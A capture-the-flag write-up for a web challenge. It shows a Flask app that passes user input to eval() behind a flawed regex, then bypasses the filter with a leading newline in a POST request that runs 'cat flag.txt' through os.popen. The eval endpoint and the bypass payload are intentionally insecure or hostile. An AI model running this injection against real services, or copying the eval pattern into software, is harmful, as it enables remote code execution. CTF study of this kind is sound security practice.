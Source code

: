 # No Code
> I made a web app that lets you run any code you want. Just kidding!

## About the Challenge
We got a website and also a Python code. Here is the content of `app.py`

```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

In this case, we can execute a Python code but there's a regex here `.*[\x20-\x7E]+.*` (matches any string that has at least one printable ASCII character) so basically we "cant" input anything here

## How to Solve?
We can bypass it using a new line (\n) to execute a Python code. Here is the example

```
POST /execute HTTP/1.1
Host: uoftctf-no-code.chals.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

code=
__import__("os").popen("cat flag.txt").read()
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
0 In
=
Pretty
Raw
Hex
Render
PosT
lexecute
HTTP/1.1
HTTP/1.1
200
OK
2
Host:
uoftctf-no-code.chals
io
2 Server:
Werkzeug/3.0.1 Python/3.10
13
3
Upgrade-Insecure-Requests:
1/
3
Date
Mon ,
15
Jan
2024
11:14.02
GMT
Referer:
http: //uoftctf-no-code. chals. io/
Content-Type
application/ json
5 Content-Type
application/X-WWW-form-urlencoded
5 Content-Length:
43
6 Content-Length:
52
6
Connection:
close
7
8
code=
8
import_ ( "os" ) . popen ( "cat
txt"). read ( )
"output" :"uoftctf{r3g3x_3plc_f41L_XDDD}"
flag.]


## Flag
```
uoftctf{r3g3x_3p1c_f41L_XDDD}
```